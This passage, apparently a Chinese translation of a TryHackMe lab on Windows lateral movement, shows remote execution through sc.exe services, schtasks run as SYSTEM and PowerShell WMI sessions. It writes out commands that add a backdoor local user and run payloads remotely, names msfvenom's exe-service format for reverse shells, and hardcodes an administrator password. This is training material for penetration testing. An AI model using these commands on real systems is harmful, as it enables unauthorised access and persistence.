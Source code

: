将使用 DCE/RPC 进行连接尝试。客户端将首先连接到端口 135 的端点映射器 （EPM），该端口充当可用 RPC 端点的目录，并请求有关 SVCCTL 服务程序的信息。然后，EPM 将使用 IP 和端口进行响应以连接到 SVCCTL，SVCCTL 通常是 49152-65535 范围内的动态端口。

如果后一个连接失败，sc 将尝试通过端口 445 （SMB） 或 139（基于 NetBIOS 的 SMB）上的 SMB 命名管道访问 SVCCTL。

我们可以使用以下命令创建并启动一个名为“THMservice”的服务：

    sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
    sc.exe \\TARGET start THMservice

“net user”命令将在服务启动时执行，从而在系统上创建新的本地用户。由于操作系统负责启动服务，因此您将无法查看命令输出。

要停止和删除服务，我们可以执行以下命令：

    sc.exe \\TARGET stop THMservice
    sc.exe \\TARGET delete THMservice

### 远程创建计划任务

我们可以使用的另一个 Windows 功能是计划任务。您可以使用 schtasks 远程创建和运行一个，在任何 Windows 安装中都可用。要创建名为 THMtask1 的任务，我们可以使用以下命令：

    schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

    schtasks /s TARGET /run /TN "THMtask1" 

我们将计划类型 （/sc） 设置为 ONCE，这意味着任务只在指定的时间和日期运行一次。由于我们将手动运行任务，因此开始日期（/sd）和开始时间（/st）无论如何都不会有太大关系。

由于系统将运行计划任务，因此命令的输出对我们不可用，因此这是盲目攻击。

最后，要删除定时任务，我们可以使用以下命令自行清理：

    schtasks /S TARGET /TN "THMtask1" /DELETE /F

虽然我们已经展示了如何使用 sc 在远程系统上创建用户（通过使用 net user), 我们还可以上传任何我们想执行的二进制文件，并将其与创建的服务相关联。但是，如果我们尝试使用此方法运行反向 shell，我们会注意到反向 shell 在执行后立即断开连接。这样做的原因是 s 服务可执行文件与标准.exe文件不同，因此非服务可执行文件最终几乎会立即被服务管理器杀死。对我们来说幸运的是，msfvenom支持： exe-service格式，它将把我们喜欢的任何有效载荷封装在一个功能齐全的服务可执行文件中，防止它被杀死。

---

### 从 Powershell 连接到 WMI

在能够使用 Powershell 命令连接到 WMI 之前，我们需要使用我们的用户名和密码创建一个 PSCredential 对象。此对象将存储在 $credential 变量中，并在此任务的整个技术中使用：

    $username = 'Administrator';
    $password = 'Mypass123';
    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
    $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

然后，我们继续使用以下任一协议建立 WMI 会话：

    DCOM：RPC over IP 将用于连接到 WMI。此协议使用端口 135/TCP 和端口 49152-65535/TCP，就像使用 sc.exe 时所述。
    Wsman：WinRM 将用于连接到 WMI。此协议使用端口 5985/ TCP （WinRM HTTP） 或 5986/TCP （WinRM HTTPS）。

若要从 Powershell 建立 WMI 会话，我们可以使用以下命令并将会话存储在 $Session 变量上，我们将在整个房间内使用不同的技术：

    $Opt = New-CimSessionOption -Protocol DCOM
    $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
